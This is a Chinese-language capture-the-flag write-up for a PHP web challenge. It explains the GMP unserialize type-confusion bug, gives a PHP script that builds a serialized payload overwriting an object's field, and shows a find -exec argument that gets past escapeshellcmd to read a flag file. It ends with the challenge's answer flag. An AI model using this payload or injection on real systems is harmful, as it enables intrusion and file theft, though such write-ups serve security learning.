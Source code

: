 


源码中有`hint/hint.php` ，直接访问

[![wePO2j.png](https://s1.ax1x.com/2020/09/06/wePO2j.png)](https://imgchr.com/i/wePO2j)

得到一半`flag` 然后提示 用 `PHP GMP Unserialize` 进行覆盖

google 发现是个 `GMP反序列化类型混淆漏洞`

参考链接

`https://bugs.php.net/bug.php?id=70513`

`https://hackerone.com/reports/198734`

`https://www.secshi.com/18203.html`





利用条件

* PHP 5.6 <5.6.30

* 存在可控 __ wakeup（）



源码中的`__wakeup` 都不可控，想要覆盖第四个类中的值，还可以用内置类 `DateInterval`

利用payload

```php
<?php
    $cmd = '';
$inner = 's:1:"4";a:2:{s:4:"flag";s:'.strlen($cmd).':"'.$cmd.'";s:2:"bb";O:12:"DateInterval":1:{s:1:"m";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
echo urlencode($exploit);
?>
```



`Myclass` 是第四个定义的类 所以需要 `s:1:"4";`

[![weFMmq.png](https://s1.ax1x.com/2020/09/06/weFMmq.png)](https://imgchr.com/i/weFMmq)



flag 覆盖成想要的值即可，但存在`escapeshellcmd` 限制

`https://zhuanlan.zhihu.com/p/36602107?from_voters_page=true`



![weFYp4.png](https://s1.ax1x.com/2020/09/06/weFYp4.png)



因此构造 直接读文件即可 ` -iname  sth -or -exec cat /HackersForever/suffix_flag.php ; -quit`



![weFzNT.png](https://s1.ax1x.com/2020/09/06/weFzNT.png)

最终flag为 ` DDCTF{VgQN6HXC2moDAq39ktVGosRfMQmazsxd}`

